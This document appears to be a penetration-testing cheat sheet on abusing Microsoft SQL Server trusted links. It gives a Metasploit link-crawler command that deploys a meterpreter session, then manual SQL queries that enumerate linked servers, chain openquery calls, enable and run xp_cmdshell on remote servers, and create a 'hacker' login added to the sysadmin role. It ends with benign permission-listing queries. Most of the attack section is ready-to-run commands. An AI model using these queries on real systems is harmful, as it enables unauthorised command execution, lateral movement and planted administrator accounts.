 ## MSSQL Trusted Links

> The links between databases work even across forest trusts.

\`\`\`powershell
msf> use exploit/windows/mssql/mssql_linkcrawler
[msf> set DEPLOY true] #Set DEPLOY to true if you want to abuse the privileges to obtain a meterpreter sessio
\`\`\`

Manual exploitation

\`\`\`sql
-- find link
select * from master..sysservers

-- execute query through the link
select * from openquery("dcorp-sql1", 'select * from master..sysservers')
select version from openquery("linkedserver", 'select @@version as version');

-- chain multiple openquery
select version from openquery("link1",'select version from openquery("link2","select @@version as version")')

-- execute shell commands
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT LinkedServer
select 1 from openquery("linkedserver",'select 1;exec master..xp_cmdshell "dir c:"')

-- create user and give admin privileges
EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
\`\`\`

## List permissions

Listing effective permissions of current user on the server.

\`\`\`sql
SELECT * FROM fn_my_permissions(NULL, 'SERVER'); 
\`\`\`

Listing effective permissions of current user on the database.

\`\`\`sql
SELECT * FROM fn_my_permissions (NULL, 'DATABASE');
\`\`\`

Listing effective permissions of current user on a view.

\`\`\`
SELECT * FROM fn_my_permissions('Sales.vIndividualCustomer', 'OBJECT') ORDER BY subentity_name, permission_name; 
\`\`\`
